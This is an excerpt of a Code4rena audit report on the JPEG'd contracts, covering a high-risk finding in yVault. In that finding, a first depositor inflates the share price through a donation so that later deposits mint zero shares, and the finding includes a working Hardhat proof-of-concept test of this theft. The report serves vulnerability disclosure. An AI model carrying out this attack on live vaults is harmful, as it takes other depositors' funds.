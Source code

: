 Further information regarding the severity criteria referenced throughout the submission review process, please refer to the documentation provided on [the C4 website](https://code4rena.com).

# High Risk Findings (9)
## [[H-01] yVault: First depositor can break minting of shares](https://github.com/code-423n4/2022-04-jpegd-findings/issues/12)
_Submitted by hickuphh3, also found by 0xDjango, berndartmueller, cmichel, hyh, and WatchPug_

[yVault.sol#L148-L153](https://github.com/code-423n4/2022-04-jpegd/blob/main/contracts/vaults/yVault/yVault.sol#L148-L153)<br>

The attack vector and impact is the same as [TOB-YEARN-003](https://github.com/yearn/yearn-security/blob/master/audits/20210719\_ToB_yearn_vaultsv2/ToB\_-\_Yearn_Vault_v\_2\_Smart_Contracts_Audit_Report.pdf), where users may not receive shares in exchange for their deposits if the total asset amount has been manipulated through a large “donation”.

### Proof of Concept

*   Attacker deposits 1 wei to mint 1 share
*   Attacker transfers exorbitant amount to the `StrategyPUSDConvex` contract to greatly inflate the share’s price. Note that the strategy deposits its entire balance into Convex when its `deposit()` function is called.
*   Subsequent depositors instead have to deposit an equivalent sum to avoid minting 0 shares. Otherwise, their deposits accrue to the attacker who holds the only share.

Insert this test into [`yVault.ts`](https://github.com/code-423n4/2022-04-jpegd/blob/main/tests/yVault.ts).

```jsx
it.only("will cause 0 share issuance", async () => {
  // mint 10k + 1 wei tokens to user1
  // mint 10k tokens to owner
  let depositAmount = units(10_000);
  await token.mint(user1.address, depositAmount.add(1));
  await token.mint(owner.address, depositAmount);
  // token approval to yVault
  await token.connect(user1).approve(yVault.address, 1);
  await token.connect(owner).approve(yVault.address, depositAmount);
  
  // 1. user1 mints 1 wei = 1 share
  await yVault.connect(user1).deposit(1);
  
  // 2. do huge transfer of 10k to strategy
  // to greatly inflate share price (1 share = 10k + 1 wei)
  await token.connect(user1).transfer(strategy.address, depositAmount);
  
  // 3. owner deposits 10k
  await yVault.connect(owner).deposit(depositAmount);
  // receives 0 shares in return
  expect(await yVault.balanceOf(owner.address)).to.equal(0);

  // user1 withdraws both his and owner's deposits
  // total amt: 20k + 1 wei
  await expect(() => yVault.connect(user1).withdrawAll())
    .to.changeTokenBalance(token, user1, depositAmount.mul(2).add(1));
});
```
